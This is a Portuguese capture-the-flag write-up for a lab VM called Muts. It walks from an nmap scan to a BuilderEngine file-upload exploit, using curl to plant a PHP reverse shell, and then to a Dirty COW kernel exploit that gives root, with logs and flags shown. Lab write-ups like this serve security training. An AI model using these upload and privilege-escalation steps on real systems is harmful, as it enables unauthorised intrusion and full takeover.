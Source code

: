 CyberCup - Muts

# CyberCup - Muts

## Enumeration

### NMAP Scan

- Após ligar a maquina, executado os comandos abaixo para enumeração da VM

```
# Nmap 7.80 scan initiated Sat Jun 27 18:38:54 2020 as: nmap -sC -sV -Pn -oA quick 10.2.0.11
Nmap scan report for 10.2.0.11                                                                                       
Host is up (0.0029s latency).
Scanned at 2020-06-27 18:39:02 -03 for 161s
Not shown: 989 closed ports                                                                                          
PORT     STATE SERVICE     VERSION                                                                                   
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                  
|   1024 aa:c3:9e:80:b4:81:15:dd:60:d5:08:ba:3f:e0:af:08 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAMicg98pQuoQKbqtp4SrKqiCeUCdVMojzPj9TQM1ETIkvcGzMqEFSweayAKO/9ZbCVfmzqhU+xt9v42cVYTbuGrLDDTE+Z6cZ2nmTSV92EgDeRMuRQ3E3Gy9oZ6QhFMFetPhDe3uH+KQMo9RUFZJgvckYiaiKYypHL+gxLhXdVGBAAAAFQCxv8bJP8R9Xc8H5k/PuUlMhUt+d
QAAAIEAjclDqWZRqhQPIOxth5arD/nhvkFFCfXHWwFh4oJQq82I1NKPpInrii7ihF50clLAs5kI6z/25sw+Hd3+vHz/KMWheh8Z82oiAm0dwOOF4KnGQVW8Ze5XoappS3+OFOJ8mk1StxS8pJzh7/aH+k5S4ehRw8InS9flVxhyiv2Znw8AAACANjD8TA+fEWlpnbK5w61pzJUHc7KyhtS+6+fqR+Q1JKTuc3Yb1duc
vdbhXo8/cGJnNlgFG1anlNua6Dp2KzjridXEmXV0yZHfXZKNyCjd1vhKdMz/V3sPlYwtPpIVBS7l1g43henKx7OsnmYG3Om3OpVNQXdHbUmQfrMOrG0vZNk=
|   2048 41:7f:c2:5d:d5:3a:68:e4:c5:d9:cc:60:06:76:93:a5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCfmGWlJ/5I0AIb0AD08vS6WWQDg0/oiZwdFMDmA8yEtHCEvasNfZLnnW4eByrCANMnLGC6lGbbY288m9uP/cISt2cEGolH8p9nwV1pKUc+aAJzkMiBSC0A/0C5o9Pgm7M7Bb1rVykpUQmg/DZp6xEEKMlIOL9vf3uKspiIqkSEFdD6vPKAGy5wPXHosuBkvXrUg
o+drp09pT2lqXt8tbNrao2DxHRwkFge/QtfPN319CNMMRyj/st0wj+vlDxUfmMDzvAJcEQMC14B29WEkdfwbLzhbSvcpzIIZ0biNA+E4YMrtL9IlFO/kDN065IJRXPY6OJicM+IhkFdzS0uhREp
|   256 ef:2d:65:85:f8:3a:85:c2:33:0b:7d:f9:c8:92:22:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFOOuNYcmh1lnKXl53anHYpGEM/udK7ham2WOPhuvyZJOUYF/rxlas7KMo+UWZimVAedAUQYy5iq7nJlNjQpxQw=
|   256 ca:36:3c:32:e6:24:f9:b7:b4:d4:1d:fc:c0:da:10:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC2Tab8Mt8xFjZKPwPpXzg2x6a6WhRaWOJCzb+lOrrbE
53/tcp   open  domain      ISC BIND 9.9.5-3 (Ubuntu Linux) 
| dns-nsid:                                           
|_  bind.version: 9.9.5-3-Ubuntu                      
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))                                                             
| http-methods:                                                                                                      
|_  Supported Methods: OPTIONS GET HEAD POST                                                                         
| http-robots.txt: 1 disallowed entry 
|_Hackers                        
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp  open  pop3        Dovecot pop3d
|_pop3-capabilities: SASL RESP-CODES TOP STLS UIDL AUTH-RESP-CODE PIPELINING CAPA
|_ssl-date: TLS randomness does not represent time
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo:             
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind            
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42415/udp6  status     
|   100024  1          44244/tcp   status
|   100024  1          47634/udp   status
|_  100024  1          56681/tcp6  status
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open  imap        Dovecot imapd (Ubuntu)                                                                                                                                                                                          
|_imap-capabilities: IDLE IMAP4rev1 ID SASL-IR more post-login LOGIN-REFERRALS LOGINDISABLEDA0001 have listed Pre-login LITERAL+ OK ENABLE capabilities STARTTLS
|_ssl-date: TLS randomness does not represent time                                                                   
445/tcp  open  netbios-ssn Samba smbd 4.1.6-Ubuntu (workgroup: WORKGROUP)
993/tcp  open  ssl/imaps?
|_ssl-date: TLS randomness does not represent time
995/tcp  open  ssl/pop3s?
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
Service Info: Host: MUTS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| nbstat: NetBIOS name: MUTS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   MUTS<00>             Flags: <unique><active>
|   MUTS<03>             Flags: <unique><active>
|   MUTS<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56744/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41968/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 15279/udp): CLEAN (Failed to receive data)
|   Check 4 (port 29481/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Unix (Samba 4.1.6-Ubuntu)
|   Computer name: muts
|   NetBIOS computer name: MUTS\x00
|   Domain name: 
|   FQDN: muts
|_  System time: 2020-06-27T17:39:17-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02:                     
|_    Message signing enabled but not required
| smb2-time:                                          
|   date: 2020-06-27T21:39:17                         
|_  start_date: N/A                       
                                                          
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 27 18:41:43 2020 -- 1 IP address (1 host up) scanned in 168.69 seconds


```

###  80/TCP

Ao acessar porta 80, identificado que temos uma instalação do BuilderEngine em modo de manutenção

![image-20200627184401907](C:\Users\dacruz\OneDrive\Notes\FIAP\CyberCup\muts.assets\image-20200627184401907.png)

- Ao buscar este produto no searchsploit, encontrado vulnerabilidade de **Arbitrary File Upload**

```
zurc@kali:/dcruz/fiap/cybercup/muts/scan$ searchsploit builderengine
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
BuilderEngine 3.5.0 - Arbitrary File Upload                                       | php/webapps/40390.php
BuilderEngine 3.5.0 - Arbitrary File Upload and Execution (Metasploit)            | php/remote/42025.rb
---------------------------------------------------------------------------------- ---------------------------------

```

- Ao verificar o exploit, visto que apenas é necessário fazer o upload do PHP utilizando o comando curl passando o arquivo do payload do shell reverso (pentestmonkey)

  ```
  curl -F 'files=@shell.php' http://10.2.0.11//themes/dashboard/assets/plugins/jquery-file-upload/server/php/
  {"files":[{"name":"shell.php","size":3460,"type":"application\/octet-stream","url":"http:\/\/10.2.0.11\/\/files\/shell.php","deleteUrl":"http:\/\/10.2.0.11\/themes\/dashboard\/assets\/plugins\/jquery-file-upload\/server\/php\/?file=shell.php","deleteType":"DELETE"}]}
  
  ```
  
- Executado arquivo e obtido shell reverso. Após isso obtido a flag de user.txt

  ```
  www-data@Muts:/var/www$ cat user.txt 
  bfbb7e6e6e88d9ae66848b9aeac6b289
  ```

  ## Escalação de privilégios

- A partir da maquina, executado LinEnum.sh e visto que existe a possibilidade de escalar privilégios utilizando o /bin/cp.

- Entretanto como nao temos a senha do user www-data, optamos por um exploit de kernel e a partir do **linux-exploit-suggester.sh** vimos que é passivel de epxloração usando dirty cow

  ```
  Available information:                                                                                                                                                                                                                                                                                                                         
  Kernel version: 3.13.0                                    
  Architecture: i686                                                                                                   
  Distribution: ubuntu                                                                                                 
  Distribution version: 14.04                                                                                          
  Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed                                        
  Package listing: from current OS                                                                                     
                                                                                                                       
  Searching among:                                          
                                                                                                                       
  74 kernel space exploits                                  
  45 user space exploits                                    
                                                            
  Possible Exploits:                                                                                                   
                                                                                                                       
  cat: write error: Broken pipe                             
  cat: write error: Broken pipe                                                                                        
  cat: write error: Broken pipe                             
  cat: write error: Broken pipe                             
  cat: write error: Broken pipe                                                                                        
  [+] [CVE-2016-5195] dirtycow                              
                                                            
     Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails                                                                                                                                                       
     Exposure: highly probable                              
     Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
     Download URL: https://www.exploit-db.com/download/40611                                                           
     Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh   
  ```
  
- ```
  www-data@Muts:/tmp$ gcc agoravai.c -o agoravai -pthread
  agoravai.c: In function 'procselfmemThread':
  agoravai.c:99:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
           lseek(f,map,SEEK_SET);
           ^
  In file included from agoravai.c:27:0:
  /usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
   extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                  ^
  agoravai.c: In function 'main':
  agoravai.c:142:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
       printf("Size of binary: %d\n", st.st_size);
       ^
  www-data@Muts:/tmp$               
  www-data@Muts:/tmp$ ./agoravai 
  DirtyCow root privilege escalation
  Backing up /usr/bin/passwd to /tmp/bak
  Size of binary: 45420
  Racing, this may take a while..
  thread stopped
  thread stopped
  /usr/bin/passwd overwritten
  Popping root shell.
  Don't forget to restore /tmp/bak
  root@Muts:/tmp# id
  uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
  root@Muts:/tmp# 
  ```

- Uma vez como root, obtido root.txt

```
root@Muts:/tmp# cat /root/root.txt
cat /root/root.txt
a10828bee17db751de4b936614558305

```

 

 

 
